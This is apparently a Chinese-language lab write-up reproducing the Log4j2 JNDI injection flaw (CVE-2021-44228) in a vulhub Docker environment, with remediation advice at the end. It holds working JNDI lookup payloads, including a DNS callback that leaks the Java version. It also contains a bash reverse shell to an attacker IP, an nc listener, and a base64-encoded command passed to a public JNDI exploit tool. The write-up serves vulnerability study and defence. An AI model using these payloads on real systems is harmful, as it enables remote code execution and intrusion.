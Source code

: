 # Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）

### 1.1、漏洞描述

Log4j2默认支持解析ldap/rmi协议（只要打印的日志中包括ldap/rmi协议即可），并会通过名称从ldap服务端获取对应的Class文件，使用ClassLoader在本地加载Ldap服务端返回的Class类。这就为攻击者提供了攻击途径，攻击者可以在界面传入一个包含恶意内容（会提供一个恶意的Class文件）的ldap协议内容（如：恶意内容${jndi:ldap://localhost:9999/Test}恶意内容），该内容传递到后端被log4j2打印出来，就会触发恶意的Class的加载执行（可执行任意后台指令），从而达到攻击的目的。



```java
javaCopy Codeimport org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jExample {
    // 获取Logger对象，参数为当前类名
    private static final Logger logger = LogManager.getLogger(Log4jExample.class);

    public static void main(String[] args) {
        // 示例日志输出
        logger.trace("Trace 级别日志");
        logger.debug("Debug 级别日志");
        logger.info("Info 级别日志");
        logger.warn("Warn 级别日志");
        logger.error("Error 级别日志");
        logger.fatal("Fatal 级别日志");
    }
}
```

${}这是一个表达式，我们可以利用表达是输出用户信息，当前时间等。

重要的是运用表达式我们就可以使用jndi协议了，例如${jndi:ldap://localhost:9999/Test} ，利用jndi请求地址为//localhost:9999的ldap服务，查找内容Test。

你怎么说//localhost:9999是一个ladp的服务呢！也许人家就是一个普通的地址呢！没错这里客户端也没法判定，也是在请求完之后判定的，这里输入dns的地址会解析吗？会，可以利用这个特点打下dnslog请求，初步确定漏洞。  



### 1.2、漏洞原理

[【精选】Log4j2注入漏洞(CVE-2021-44228)万字深度剖析(二)—漏洞原理_log4j2漏洞-CSDN博客](https://blog.csdn.net/hilaryfrank/article/details/121939902)

### 1.3、漏洞等级

高

### 1.4、影响版本

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

### 1.5、漏洞复现

#### 1、基础环境

Path：vulhub/log4j/CVE-2021-44228

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8983/solr/admin/cores?action=`即可看到

![image-20240409211005986](./imgs/image-20240409211005986.png)

![image-20240409211043184](./imgs/image-20240409211043184.png)



#### 2、漏洞验证

payload准备

```
${jndi:ldap://n2ii2r.dnslog.cn}
```

![image-20240409211423275](./imgs/image-20240409211423275.png)

查看dnslog平台解析记录

![image-20240409211401028](./imgs/image-20240409211401028.png)

payload插入表达式

```
${jndi:ldap://${sys:java.version}.n2ii2r.dnslog.cn}
```

![image-20240409211601179](./imgs/image-20240409211601179.png)

![image-20240409211635749](./imgs/image-20240409211635749.png)

### 1.6、深度利用

#### 1、反弹Shell

工具梭哈~

直接用JNDI注入工具`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`或`JNDIExploit-1.4-SNAPSHOT.jar`，可以在github上搜一下

> 使用方式：
> java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]

先执行如下命令，并base64编码

```bash
bash -i >& /dev/tcp/192.168.43.147/4567 0>&1
```

![image-20240409220715708](./imgs/image-20240409220715708.png)

nc监听 

```bash
 nc -lnvp 4567
```

![image-20240409214802041](./imgs/image-20240409214802041.png)

编码后的命令通过`-C`参数输入JNDI工具，通过通过`-A`参数指定攻击机的ip地址：

```bash
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjE0Ny80NTY3IDA+JjE=} | {base64,-d}|{bash,-i}" -A "192.168.43.147"
```



### 1.7、修复建议

**官方方案**：

将Log4j框架升级到2.15.0版本， 不要用2.15.0-rc1和2.15.0-rc2
**临时方案：**

1、升级JDK

2、修改log4j配置

2.1、设置参数：

```
log4j2.formatMsgNoLookups=True
```

2.2、修改jvm参数：

```
-Dlog4j2.formatMsgNoLookups=true
```

2.3、系统环境变量：

```
FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS设置为true
```

2.4、禁止log4j2所在的服务器外连

使用安全产品防护：WAF、RASP

### 1.8、参考

- https://blog.csdn.net/weixin_50892961/article/details/135446028
- [Log4j2注入漏洞(CVE-2021-44228)万字深度剖析](https://blog.csdn.net/hilaryfrank/article/details/121939902)
- [bilibili【面试必问】Log4j漏洞复现及原理刨析，简单易懂](https://www.bilibili.com/video/BV1fT411P7Tu/?vd_source=7cb54e8da5c4e85dd5ca576825dc1c86)